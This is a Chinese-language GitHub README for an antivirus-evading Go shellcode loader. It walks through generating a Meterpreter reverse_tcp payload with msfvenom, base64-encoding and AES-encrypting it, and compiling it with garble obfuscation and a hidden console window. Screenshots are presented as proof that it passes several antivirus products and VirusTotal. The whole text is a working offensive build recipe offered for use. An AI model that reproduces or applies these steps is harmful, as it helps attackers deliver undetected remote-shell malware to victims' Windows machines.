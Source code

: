 # go-shellcode-loader

GO免杀shellcode加载器

#### 获取项目

```Bash
git clone https://github.com/HZzz2/go-shellcode-loader.git
cd go-shellcode-loader
//下条命令安装第三方混淆库  GitHub地址：https://github.com/burrowers/garble
go install mvdan.cc/garble@latest    

```

#### 生成shellcode并base64

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`

`base64 -w 0 -i rev.raw > rev.bs64`

`cat rev.bs64`

**复制到aes-sc.go中的51行替换payload**

运行aes-sc.go生成AES加密后的值

`go run aes-sc.go`

复制输出的值到go-sc.go中的73行替换payload

#### **编译成exe可执行程序**

`garble -tiny -literals -seed=random build -ldflags="-w -s -H windowsgui" -race go-sc.go`

参数解释：

  garble(混淆库)：
                          
                          -tiny                    删除额外信息
                          
                          -literals               混淆文字

                          -seed=random   base64编码的随机种子 

  go：
        -w                        去掉调试信息，不能gdb调试了

        -s                         去掉符号表

        -H windowsgui    隐藏执行窗口，不占用 cmd 终端。 （被查杀率高）

        -race                    使数据允许竞争检测

编译后得到go-sc.exe

#### 检测图

**火绒**

![](https://secure2.wostatic.cn/static/scesU3bCQaeSVpCehTJS84/image.png)

**360杀毒**

![](https://secure2.wostatic.cn/static/psmiLExVYYV725LtsLD3TU/image.png)

**360卫士**

![](https://secure2.wostatic.cn/static/f7gKLhEe1ApdDQwyLBN1a6/image.png)

**DF**

![](https://secure2.wostatic.cn/static/kvuYuMrLSZqxz1gzRjVowT/image.png)

**virustotal**

![](https://secure2.wostatic.cn/static/q69psHHLVRfNxXf4oKBK2J/image.png)

**微步云杀箱**

![](https://secure2.wostatic.cn/static/i1UvjPfa3DE9q9ALwwmbvH/image.png)



**运行效果**
https://user-images.githubusercontent.com/22775890/172315032-7ab13fea-9900-4cec-903e-48c8f7d0f2b7.mp4




